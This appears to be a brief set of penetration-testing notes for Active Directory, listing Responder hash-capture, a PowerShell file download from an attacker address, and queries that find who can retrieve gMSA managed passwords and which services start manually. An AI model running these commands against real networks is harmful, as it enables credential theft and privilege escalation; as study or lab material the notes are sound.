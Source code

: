 command for responder:

```
responder -I tun0 -wv
```
Powershell commands:

Download files from a url
```
Invoke-WebRequest -Uri <ip address> -Outfile <filename>
```
Checks to see who has gmsa permissions on an AD:
```
Get-ADServiceAccount -Filter * | where-object {$_.ObjectClass -eq "msDS-GroupManagedServiceAccount"}
```

known manual start permissions on windows:
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\seclogon
```
look for services that start manually
```
Get-Service | findstr -i "manual"
```

Check if user is in an admin group:

```
Get-ADGroupMember 'Web Admins'
```

What groups have permission to acheive a users password:
```
Get-ADServiceAccount -Filter {name -eq 'svc_apache'} -Properties * | Select CN,DNSHostName,DistinguishedName,MemberOf,Created,LastLogonDate,PasswordLastSet,msDS-ManagedPasswordInterval,PrincipalsAllowedToDelegateToAccount,PrincipalsAllowedToRetrieveManagedPassword,ServicePrincipalNames
```


